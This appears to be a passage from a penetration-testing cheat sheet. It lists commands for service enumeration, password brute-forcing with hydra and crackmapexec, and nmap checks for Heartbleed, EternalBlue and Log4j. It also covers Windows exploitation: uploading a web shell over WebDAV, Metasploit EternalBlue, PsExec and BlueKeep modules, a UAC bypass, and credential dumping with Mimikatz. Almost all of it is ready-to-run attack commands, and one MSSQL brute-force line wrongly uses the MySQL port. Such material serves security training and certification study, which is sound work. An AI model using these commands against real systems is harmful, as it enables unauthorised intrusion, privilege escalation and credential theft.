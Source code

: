 #### 4. HTTP
- Web Scan: `whatweb <TARGET_IP>`  
- Nmap: `nmap --script=http-enum -sV -p80 <TARGET_IP>`  
- Dirb: `dirb http://<TARGET_IP> <WORDLIST>`

#### 5. MySQL
- Empty PW Check: `nmap -p 3306 --script=mysql-empty-password <TARGET_IP>`  
- Brute-Force: `hydra -l <USER> -P <PW_LIST> <TARGET_IP> mysql`

#### 6. MSSQL
- Info: `nmap -p 1433 --script ms-sql-info <TARGET_IP>`  
- Brute-Force: `nmap -p 3306 --script ms-sql-brute <TARGET_IP>`

#### 7. SMTP
- Scan: `sudo nmap -p 25 -sV -sC -O <TARGET_IP>`  
- Enum: `smtp-user-enum -U <USER_LIST> -t <TARGET_IP>`

#### 8. Vulnerability Assessment
- Heartbleed: `nmap -sV --script ssl-heartbleed -p 443 <TARGET_IP>`  
- EternalBlue: `nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>`  
- Log4j: `nmap --script log4shell.nse -p 8080 <TARGET_IP>`

---

## PART 2: System/Host-Based Attacks

### I. Windows Exploitation

#### 1. IIS WebDAV
- Scan: `nmap -p80 --script http-enum -sV <TARGET_IP>`  
- Brute-Force: `hydra -L <USER_LIST> -P <PW_LIST> <TARGET_IP> http-get /webdav/`  
- Upload Shell: `cadaver http://<TARGET_IP>/webdav` → `put /path/to/shell.asp`

#### 2. SMB
- EternalBlue: `use exploit/windows/smb/ms17_010_eternalblue`  
- PsExec: `use exploit/windows/smb/psexec` → `set SMBUser <USER>`

#### 3. RDP
- Scan: `use auxiliary/scanner/rdp/rdp_scanner`  
- BlueKeep: `use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`

#### 4. WinRM
- Brute-Force: `crackmapexec winrm <TARGET_IP> -u <USER> -p <PW_LIST>`  
- Shell: `evil-winrm -i <IP> -u <USER> -p <PW>`

#### 5. Privilege Escalation
- Exploit Suggester: `use post/multi/recon/local_exploit_suggester`  
- UAC Bypass: `exploit/windows/local/bypassuac_eventvwr`

#### 6. Credential Dumping
- Kiwi: `load kiwi` → `creds_all`  
- Mimikatz: `mimikatz.exe` → `sekurlsa::logonPasswords`
